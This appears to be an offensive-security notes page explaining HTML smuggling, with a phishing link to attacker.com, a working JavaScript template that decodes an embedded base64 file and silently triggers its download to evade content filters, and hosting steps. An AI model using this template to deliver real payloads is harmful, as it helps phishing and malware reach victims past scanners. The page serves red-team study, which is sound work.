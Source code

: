 ```yaml
---
description: 09/03/2025
---
```


# ✅ HTML Smuggling

## What is it?

HTML smuggling is a technique that uses JavaScript to hide files from content filters.&#x20;

If you send a phishing email with a download link, the `HTML` will probably look something like this:

```html
<a href="http://attacker.com/file.doc">Download Me</a>
```

### Security Implications

As a result, Email and web scanners are capable of parsing this data out and taking action upon it. They may be removed entirely, or the URL content fetched can be scanned by an AV sandbox.

### How to get Around This...

`HTML` smuggling allows us to get around this by embedding the payload into the `HTML` source code and using JavaScript to construct URLs by the browser at runtime.

### Boiler Plate Template

```html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```

#### How does it work?

As this goes "across the wire", a scanner (or other security solution) will only be capable of seeing the `HTML` and JavaScript. There are no hardcoded hyperlinks and the content type of the page itself is just `text/html`.

The encoded content in the `file` variable was created simply with:

```
ubuntu@DESKTOP-3BSK7NO ~> echo -en "This is a smuggled file" | base64
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As you can see in the screenshot above, the `base64`-encoded string, `VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=`, can be decoded to `"This is a smuggled file"`. &#x20;

### What happens when you host this HTML on a page?

Upon a victim user visiting the page, the browser will automatically reconstruct and download the file without any user interaction from the user.

The quickest way we can test this and stand this up is by using `python3 -m http.server`.&#x20;

From there, we now have a simple, insecure `HTTP` server that we can use to host this file.

Upon visiting, we see that we can perform a drive-by download-like attack as `test.txt` is automatically downloaded.&#x20;

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**The output from the Python `HTTP` server:**

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

### MOTW Warning

Files downloaded this way will still retain the MOTW and are also subject to the typical browser restrictions (e.g. warnings when trying to download `.EXE`'s).

```
PS C:\Users\bfarmer\Downloads> gc .\test.txt -Stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://nickelviper.com/smuggle.html
HostUrl=http://nickelviper.com/
```
